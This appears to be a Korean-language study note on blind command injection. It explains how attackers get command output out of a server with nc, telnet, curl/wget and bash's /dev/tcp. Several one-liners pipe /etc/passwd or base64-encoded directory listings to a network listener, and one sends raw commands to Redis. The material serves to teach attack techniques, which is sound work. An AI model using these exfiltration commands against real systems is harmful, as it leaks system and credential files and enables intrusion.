 	echo -e "anydata: anydata\r\nget hello" | nc 127.0.0.1 6379


# 실행 결과를 확인 할 수 없을 때

### Network Outbound
삽입할 명령줄에 네트워크 도구를 함께 실행해 자신의 서버에 명령어 실행 결과를 전송. 이는 네트워크 도구를 서버에 설치할 수 있거나 설치되었을 때 사용 가능한 방법

### nc ( netcat )
TCP 또는 UDP 프로토콜을 사용하는 네트워크에서 데이터를 송신하거나 수신하는 프로그램
셸에서 제공하는 파이프('|')와 함께 해당 프로그램을 사용하면 앞서 실행한 명령어의 결과를 네트워크로 전송
아래는 nc를 이용해 명령어의 실행 결과를 네트워크로 전송하는 예시
명령어가 실행되면, "/etc/passwd" 파일의 출력 결과를 로컬의 8000번 포트로 전송

	#nc를 이용한 명령어 실행 결과 전송
	cat /etc/passwd | nc 127.0.0.1 8000

### telnet
telnet은 네트워크 연결에 사용되는 프로토콜로 클라이언트를 설치해 네트워크에 연결을 시도할 수 있음
nc와 같이 파이프와 함께 명령어의 결과를 네트워크로 전송할 수 있음
아래는 telnet을 이용해 명령어의 실행 결과를 네트워크로 전송하는 예시
명령어가 실행되면 "/etc/passwd" 파일의 출력 결과를 로컬의 8000번 포트로 전송

	#telnet을 이용한 명령어 실행 결과 전송
	cat /etc/passwd | telnet 127.0.0.1 8000

### CURL / WGET
curl과 wget은 모두 웹 서버의 컨텐츠를 가져오는 프로그램
웹 서버에서 컨텐츠를 가져오기 위해서는 웹 서버에 방문을 해야하기 때문에 서버에서는 접속 로그가 남음
이 특징을 이용해 명령어의 실행 결과를 웹 서버의 경로 또는 Body와 같은 영역에 포함해 전송
아래는 curl을 이용해 명령어의 실행 결과를 네트워크로 전송하는 예시
명령어를 살펴보면 로컬 웹 서버의 파라미터로 디렉터리 목록의 결과를 base64 인코딩하여 전달하는 것을 볼 수 있음
명령어 실행 결과에는 개행이 있을 수 있기 때문에 인코딩을 통해 개행을 제거

	#curl을 이용한 명령어 실행 결과 전송
	curl "http://127.0.0.1:8080/?$(ls -al|base64 -w0)"

POST 메소드를 사용해 실행 결과를 전송하는 방법 또한 사용할 수 있음
아래는 명령어의 실행 결과를 POST Body에 포함해 요청을 보내는 명령어

	#POST Body 실행 결과 전송
	curl http://127.0.0.1:8080/ -d "$(ls -al)"
	wget http://127.0.0.1:8080 --method=POST --body-data="`ls -al`"

### /dev/tcp & /dev/udp
Bash에서 지원하는 기능으로 네트워크에 연결하는 방법
아래와 같이 "/dev/tcp" 장치 경로의 하위 디렉터리로 IP 주소와 포트 번호를 입력하면 Bash는 해당 경로로 네트워크 연결을 시도
따라서 "/etc/passwd"의 파일 내용이 로컬의 8080 포트로 전송

	#/dev/를 이용한 명령어 실행 결과 전송
	cat /etc/passwd > /dev/tcp/127.0.0.1/8080
